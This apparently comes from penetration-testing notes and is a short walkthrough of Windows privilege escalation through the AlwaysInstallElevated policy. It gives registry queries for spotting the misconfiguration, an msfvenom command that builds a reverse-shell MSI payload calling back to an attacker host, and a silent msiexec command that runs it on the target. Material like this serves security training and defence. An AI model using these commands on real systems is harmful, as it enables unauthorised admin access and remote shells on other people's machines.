 # Introduction
Windows has a group policy which, when enabled, allows a user to install a Microsoft Windows Installer Package (`.msi` file) with elevated privileges. This poses a security risk because an adversary can simply generate a malicious `.msi` file and execute it with admin privileges.

In order to check for this vulnerability, one need only query the following registry keys:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](Resources/Images/AlwaysInstallElevated/Query%20Registry%20Keys.png)

The `AlwaysInstallElevated` policy appears enabled, so we can generate a malicious `.msi` executable. One way to do this is through Metasploit:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o reverse.msi
```

Next, transfer the executable to the target machine and execute it with `msiexec`:

```powershell
msiexec /quiet /qn /i <path>
```

![](Resources/Images/AlwaysInstallElevated/msiexec.png)

![](Resources/Images/Shell.png)